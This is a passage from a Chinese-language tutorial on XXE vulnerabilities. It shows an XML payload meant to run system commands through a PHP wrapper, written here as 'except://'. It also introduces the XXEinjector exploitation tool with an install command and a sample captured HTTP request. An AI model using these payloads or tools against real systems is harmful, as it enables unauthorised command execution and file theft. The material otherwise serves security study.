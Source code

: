 #### 3.远程执行命令

如果是 PHP 环境下并安装 except 扩展，就可以利用它执行系统命令了。这种情况现在已经比较少见了，更多还是要利用其他漏洞来实现命令或代码执行。

复制代码

```
<?xml version = "1.0"?>

<!DOCTYPE ANY [

    <!ENTITY xxe SYSTEM "except://id">

]>

<x>&xxe;</x>
```

### XXE 漏洞利用工具

#### 1.XXEinjector

推荐一款综合型的 XXE 漏洞利用工具[XXEinjector](https://github.com/enjoiz/XXEinjector)，用 Ruby 开发，运行前需要先安装 ruby。

复制代码

```
sudo apt install ruby
```

通过输入请求包数据，并指定攻击行为，比如列目录、读文件等。

复制代码

```
$ cat req.txt                                                                                    1 ↵

GET /mmpaymd/ordercallback HTTP/1.1

Host: 100.95.204.69:8081

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8

Accept-Encoding: gzip, deflate

Accept-Language: zh,zh-CN;q=0.9,en;q=0.8

Cache-Control: max-age=259200

Connection: keep-alive
```
